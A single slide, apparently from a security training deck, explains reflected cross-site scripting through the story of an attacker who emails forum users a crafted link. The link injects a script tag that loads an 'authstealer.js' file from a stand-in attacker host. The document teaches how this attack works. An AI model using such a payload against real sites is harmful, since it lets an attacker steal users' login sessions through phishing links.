

# Reflected XSS
Next, he creates his own URL, which reads http://forum.com?q=news<\script%20src="http://hackersite.com/authstealer.js" and embeds it as a link into a seemingly harmless email, which he sends to a group of forum users